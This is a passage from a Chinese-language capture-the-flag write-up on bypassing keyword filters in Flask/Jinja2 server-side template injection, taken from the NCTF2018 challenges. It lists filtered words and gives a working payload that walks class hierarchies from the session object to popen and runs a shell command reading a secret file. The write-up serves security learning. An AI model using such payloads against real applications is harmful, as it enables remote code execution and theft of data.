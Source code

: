 ```python
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```
## 过滤了request和class

这里除了用上面中括号或 |attr() 那几种方法外，我们还可以利用flask里面的session对象和config对象来逃逸这一姿势。

### [NCTF2018]flask真香

过滤

```python
config
class
mro
args
request
open
eval
builtins
import
```

访问到了类，我们就可以通过`__bases__`来获取基类的元组，带上索引0就可以访问到相应的基类。由此一直向上我们就可以访问到最顶层的`object`基类了。**（同样的，如果没有过滤config的话，我们还可以利用config来逃逸，方法与session的相同）**

payload：

```python
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('cat /Th1s__is_S3cret').read()}}
```

### [NCTF2018]Flask PLUS

过滤

```python
__init__
file
__dict__
__builtins__
__import__
getattr
os
```

这里我们注意到了**enter**方法，查看其内容，发现其竟然有 **globals** 方法可用，也就是说这个**enter**方法与 **init** 方法一模一样。

这里摘抄下一段stack overflow的一段话

- **init** (allocation of the class)
- **enter** (enter context)
- **exit** (leaving context)
